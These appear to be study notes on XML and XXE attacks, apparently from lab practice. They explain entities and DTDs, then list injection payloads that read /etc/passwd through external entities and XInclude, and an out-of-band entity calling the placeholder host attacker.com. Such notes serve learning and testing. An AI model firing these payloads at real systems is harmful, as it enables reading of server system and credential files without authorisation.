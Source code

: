 XML is a markup language designed for data storage and transport, featuring a flexible structure that allows for the use of descriptively named tags. It differs from HTML by not being limited to a set of predefined tags. XML's significance has declined with the rise of JSON, despite its initial role in AJAX technology.

- **Data Representation through Entities**: Entities in XML enable the representation of data, including special characters like `&lt;` and `&gt;`, which correspond to `<` and `>` to avoid conflict with XML's tag system.
- **Defining XML Elements**: XML allows for the definition of element types, outlining how elements should be structured and what content they may contain, ranging from any type of content to specific child elements.
- **Document Type Definition (DTD)**: DTDs are crucial in XML for defining the document's structure and the types of data it can contain. They can be internal, external, or a combination, guiding how documents are formatted and validated.
- **Custom and External Entities**: XML supports the creation of custom entities within a DTD for flexible data representation. External entities, defined with a URL, raise security concerns, particularly in the context of XML External Entity (XXE) attacks, which exploit the way XML parsers handle external data sources: `<!DOCTYPE foo [ <!ENTITY myentity "value" > ]>`
- **XXE Detection with Parameter Entities**: For detecting XXE vulnerabilities, especially when conventional methods fail due to parser security measures, XML parameter entities can be utilized. These entities allow for out-of-band detection techniques, such as triggering DNS lookups or HTTP requests to a controlled domain, to confirm the vulnerability.
    - `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd" > ]>`
    - `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://attacker.com" > ]>`

## attacks

##  Entity test

In this attack I'm going to test if a simple new ENTITY declaration is working

xml
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [<!ENTITY toreplace "3"> ]> <stockCheck>     <productId>&toreplace;</productId>     <storeId>1</storeId> </stockCheck>


![[Pasted image 20250618210714.png]]


## XXE element

### DOCTYPE = <!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
### XInclude = foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>



## XXE  Read file
Lets try to read `/etc/passwd` in different ways. For Windows you could try to read: `C:\windows\system32\drivers\etc\hosts`
